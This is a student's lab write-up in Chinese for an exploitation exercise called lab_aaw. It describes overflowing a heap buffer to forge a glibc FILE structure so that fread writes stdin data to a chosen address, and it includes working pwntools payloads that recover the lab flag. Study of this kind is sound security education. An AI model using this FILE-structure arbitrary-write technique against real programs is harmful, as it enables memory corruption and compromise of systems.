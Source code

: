 # lab_aaw

1. 這題的原理跟 lab_aar 類似，一樣是用 overflow 去改寫 FILE 的結構，來達到任意讀或寫，理解完 fread 得過程後，嘗試去寫出 payload 但一直失敗，所以還是參考 example 去構造 file structure，但這邊卡關的時間比 lab_aar 還有久，原因是因為，寫完 payload 後，一直去檢查我送入的 payload 在程式中，用 gdb 檢查 heap 的情況，但這邊一直看不太出來問題出在哪裡。

```python
flag = 0x404070
size = 0x50

fileStr = FileStructure()
fileStr.flags = 0xfbad0000
fileStr._IO_buf_base = flag
fileStr._IO_write_base = flag
fileStr._IO_buf_end = flag + size
fileStr._IO_read_ptr = 0x0
fileStr._IO_read_end = 0x0
fileStr.fileno = 0x0
#print(fileStr)
payload = (flat(0,0,0,0x1e1) +  bytes(fileStr))[0:19*0x8]
```

![截圖 2022-12-12 下午8.43.16.png](lab_aaw%20ed6e65fb68e448458e188e36ec5ba9ff/%25E6%2588%25AA%25E5%259C%2596_2022-12-12_%25E4%25B8%258B%25E5%258D%25888.43.16.png)

1. 我還是重新去理將老師上課講義及 example.c 裡面的內容，因為 aaw 是要把從 stdin 讀取的資料寫到特定位址，要控制的是 fread 的流程。
a. 所以 flags 要設置成
    
        flags  & ~NO_READS 代表可讀
        flags & ~EOF_SEEN 代表避免被視為 EOF
    
        =>  flags &= ~(NO_READ | EOF_SEEN) : flags 設置為可讀，且避免被視為 EOF
    
        flags |= MAGIC 魔數，通常用來判斷檔案有沒有被篡改
    
        所以這裡得 FLAG 為
    
    flags &= ~(NO_READ | EOF_SEEN)
    
    flags |= MAGIC
    
    ![Untitled](lab_aaw%20ed6e65fb68e448458e188e36ec5ba9ff/Untitled.png)
    
    b. fileno = 0 (從 stdin 讀取)
    
    c. IO part
    
    避免複製，因此 read_end == read_ptr ⇒ read_end = read_ptr = 0 
    
         buf_base 指向目標位址 ⇒ buf_base = target_address
    
         buf_end 設為 buf_base + 夠大的值 (至少 >= want) ⇒ buf_end = buf_base + largevalue
    
2. 然後，我再重新去檢查程式的原始碼，這邊要想辦法將 owo 裡面的內容改寫，讓這邊字串比對會不同。另外，還檢查到我這邊 buf_base 是要指向目標位置，buf 設為 buf_base+夠大的值，而我前面設定的目標位置是錯的，也沒有設定夠大的值進去。

```python
if (strcmp(owo, "OWO!") != 0)
	write(1, flag, sizeof(flag));
```

![截圖 2022-12-12 下午10.41.04.png](lab_aaw%20ed6e65fb68e448458e188e36ec5ba9ff/%25E6%2588%25AA%25E5%259C%2596_2022-12-12_%25E4%25B8%258B%25E5%258D%258810.41.04.png)

1. 然後我將3.提到 debug 到的錯誤修正後，將payload 改寫為如下面的 code ( 前面的 flag 跟 sizeof(flag) 其實沒有用到，反而會要用到 target address )，將payload 送出後再輸入任意字串後，就能拿到 FLAG{sushi}。

```python
write_base = 0x404070
largevalue = 0x50

fileStr = FileStructure()
fileStr.flags = 0xfbad0000
fileStr._IO_buf_base = write_base
fileStr._IO_write_base = write_base
fileStr._IO_buf_end = write_base + largevalue
fileStr._IO_read_ptr = 0x0
fileStr._IO_read_end = 0x0
fileStr.fileno = 0x0
#print(fileStr)
payload = (flat(0,0,0,0x1e1) +  bytes(fileStr))[0:19*0x8]
```

![截圖 2022-12-12 下午10.48.22.png](lab_aaw%20ed6e65fb68e448458e188e36ec5ba9ff/%25E6%2588%25AA%25E5%259C%2596_2022-12-12_%25E4%25B8%258B%25E5%258D%258810.48.22.png)